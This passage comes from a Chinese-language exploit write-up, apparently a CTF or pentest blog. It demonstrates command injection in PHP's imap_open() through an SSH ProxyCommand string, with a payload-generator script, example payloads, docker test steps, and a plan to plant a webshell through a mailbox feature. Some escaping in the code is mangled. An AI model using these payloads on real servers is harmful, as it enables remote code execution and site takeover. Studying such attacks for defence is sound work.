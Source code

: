 ## imap_open()攻击测试

于是综上所述，我们将目光放在imap_open()上开始测试，我们可利用如下脚本生成payload

```
&lt;?php
$payload = $argv[1];
$encoded_payload = base64_encode($payload);
$server = “any -o ProxyCommand=echot”.$encoded_payload.”|base64t-d|bash`}`”;
print(“payload: `{`$server`}`”.PHP_EOL);
```

例如

```
any -o ProxyCommand=echotbHM=|base64t-d|bash`}`
```

我们测试一下，由于imap_open是php的扩展模块，我们这里选择找个docker测试

随便搜一个

```
docker search imap
```

[![](https://p0.ssl.qhimg.com/t01dfe7e0c5efd1425a.png)](https://p0.ssl.qhimg.com/t01dfe7e0c5efd1425a.png)

选择一个后pull

```
docker pull fedosov/docker-php-imap-composer
```

进入容器进行测试

```
docker run -itd fedosov/docker-php-imap-composer /bin/bash
docker attach id
```

先写一个带有imap_open的1.php

```
&lt;?php
$payload = "echo skysky|tee /tmp/success";
$encoded_payload = base64_encode($payload);
$server = "any -o ProxyCommand=echot".$encoded_payload."|base64t-d|bash";
@imap_open('`{`'.$server.'`}`:143/imap`}`INBOX', '', '');
```

[![](https://p5.ssl.qhimg.com/t010a860aad52fa7b6e.png)](https://p5.ssl.qhimg.com/t010a860aad52fa7b6e.png)

我们可以明显看到，运行前tmp目录为空目录，运行后，tmp目录生成了success文件，文件内容为我们指定的skysky

这样一来攻击点就清晰了：利用邮箱授权功能往`./user/`目录写入shell即可

注：为什么不执行命令呢？因为这里命令不回显……写shell的话要方便很多
